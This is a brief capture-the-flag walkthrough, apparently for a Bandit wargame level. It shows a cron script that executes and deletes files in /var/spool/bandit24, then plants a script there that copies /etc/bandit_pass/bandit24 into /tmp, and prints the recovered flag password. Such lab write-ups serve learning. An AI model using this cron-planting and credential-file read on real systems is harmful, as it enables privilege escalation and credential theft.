 From the previous levels we know the bandit procedure for cronjob, let's just get right to the script.

1) `cat /usr/bin/cronjob_bandit24.sh`

    #!/bin/bash

    myname=$(whoami)

    cd /var/spool/$myname
    echo "Executing and deleting all scripts in /var/spool/$myname:"
    for i in *;
    do
      echo "Handling $i"
      ./$i
      rm -f $i
    done

Basically, the cronjob deletes all the files in in `/var/spool/<owner_of_cronjob>` after executing them.

Luckily for us, the owner of the cronjob is bandit24, who's password we need. So let's first `cd` into his directory in order to make the script for the cronjob to run.


2) `cd /var/spool/bandit24`

Now let's make the executable

3) `touch getFlag.sh && nano getFlag.sh`

4) Make a script as follows:

    #!/bin/bash

    cat /etc/bandit_pass/bandit24 > /tmp/passForBandit24

After the cronjob runs the script, we get the flag by

5) `cat /tmp/passForBandit24`

Flag: **UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ**
